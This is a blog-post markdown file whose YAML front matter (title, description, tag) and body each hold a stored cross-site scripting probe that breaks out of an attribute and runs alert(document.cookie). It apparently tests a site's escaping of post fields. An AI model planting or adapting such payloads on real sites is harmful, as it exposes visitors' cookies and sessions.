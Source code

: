 ```yaml
---
title: '"><img src=x onerror=alert(document.cookie)>'
date: 2025-08-07T05:48:00.000+03:00
description: '"><img src=x onerror=alert(document.cookie)>'
thumbnail: /uploads/wallpaperflare.com_wallpaper.jpg
tags:
  - '"><img src=x onerror=alert(document.cookie)>'
---
```

"><img src=x onerror=alert(document.cookie)>
